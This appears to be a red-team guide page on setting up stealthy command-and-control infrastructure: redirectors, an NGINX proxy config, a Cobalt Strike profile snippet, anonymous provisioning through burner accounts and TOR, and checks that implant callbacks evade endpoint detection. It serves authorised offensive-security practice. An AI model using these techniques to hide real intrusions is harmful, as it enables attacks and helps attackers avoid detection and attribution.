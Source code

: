 ```yaml
---
id: c2
title: How to Set Up OPSEC-Safe C2 Infrastructure
sidebar_label: C2
sidebar_position: 1
---
```


---

### Objective

Design and deploy **Command and Control (C2) infrastructure** that protects operator identity, masks traffic, and mimics real-world adversary TTPs. OPSEC-safe C2 setups reduce the risk of detection, blacklisting, and attribution during Red Team engagements.

---

### Prerequisites

- A defined scope and Rules of Engagement (RoE)
- Threat model or TTPs selected
- Infrastructure provisioning resources (cloud, VPS providers)
- Familiarity with one or more C2 frameworks (e.g., Cobalt Strike, Mythic, Sliver)

---

### Step-by-Step Instructions

---

#### 🧱 1. Architect a Multi-Tier C2 Infrastructure

Use a **staged C2 architecture** with at least:

- **Beacon/implant → Redirector** (traffic routing only)
- **Redirector → Backend C2 server** (handles logic, staging, post-ex)

This isolates detection and blocks direct connection to the operator’s C2 server.

**Example Layout:**
```
[Target] → [Redirector: nginx/CDN] → [Backend C2 Server: CS, Mythic]
```

---

#### 🕵️ 2. Provision Infrastructure with OPSEC in Mind

Use providers that allow alias registration or crypto payments.

- Providers: `Vultr`, `DigitalOcean`, `OVH`, `BuyVM`, `Shinjiru`, etc.
- Use **burner email addresses** and avoid personal billing info
- Register infrastructure under pseudonyms or temporary accounts

📌 *Tip:* Consider chaining through **VPN + TOR + clean VM** when provisioning.

---

#### 🌐 3. Set Up Redirectors Using NGINX or Apache

Redirectors forward only **specific implant traffic** to the backend.

- NGINX Example Config:
```nginx
location /update {
    proxy_pass https://backendc2[.]com;
    proxy_set_header Host backendc2.com;
}
```

- Tools: `Apache`, `NGINX`, `socat`, `HAProxy`, or Cobalt Strike’s `redirector.rb`

Use **TLS with valid certs** (Let’s Encrypt or custom) and domain fronting if desired.

---

#### 🪪 4. Register Domains and Set Up TLS

- Use **reputable-looking domains** (`cdn-update.net`, `support-gateway.com`)
- Register via Namecheap, Gandi, Njalla, or Epik
- Setup **Let’s Encrypt certs** or mimic common providers (e.g., GoDaddy, Cloudflare)

**Optional:**
- Use **Cloudflare** as a protective CDN or to simulate domain fronting
- Avoid newly registered domains unless simulating commodity threats

---

#### 🔁 5. Configure C2 Profile for Stealth

In your C2 (e.g., Cobalt Strike, Mythic):
- Set **User-Agent** to legit traffic (`Mozilla/5.0`, `Outlook/16.0`, etc.)
- Mimic headers used by real SaaS tools (e.g., Slack, O365, Zoom)
- Use long **sleep intervals** and jitter (e.g., `900s ±50%`)

Sample CS Profile Snippet:
```plaintext
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
http-get {
    set uri "/update";
    client {
        header "Accept" "*/*";
        header "Host" "cdn-update.com";
    }
}
```

---

#### 🧪 6. Test Before Launching

- Run `whois`, `dig`, and `curl` to confirm resolution and proxy behavior
- Verify endpoint detection does not flag implant callbacks
- Use `Wireshark` to analyze packet structure and TLS negotiation

---

#### 🔥 7. Maintain OPSEC Throughout the Engagement

- Rotate domains and infrastructure on detection or compromise
- Avoid hosting multiple client ops from the same backend
- Re-image or destroy VPS and domains after the op ends

Keep logs *offline*, and separate operator actions by engagement.

---

### Summary

A hardened, well-segmented C2 infrastructure is your lifeline during a Red Team op. Treat its setup with the same rigor as payload development — because if your C2 burns, **so does your access, stealth, and credibility**.

Build it right, obfuscate it well, and rotate it like a pro.

---
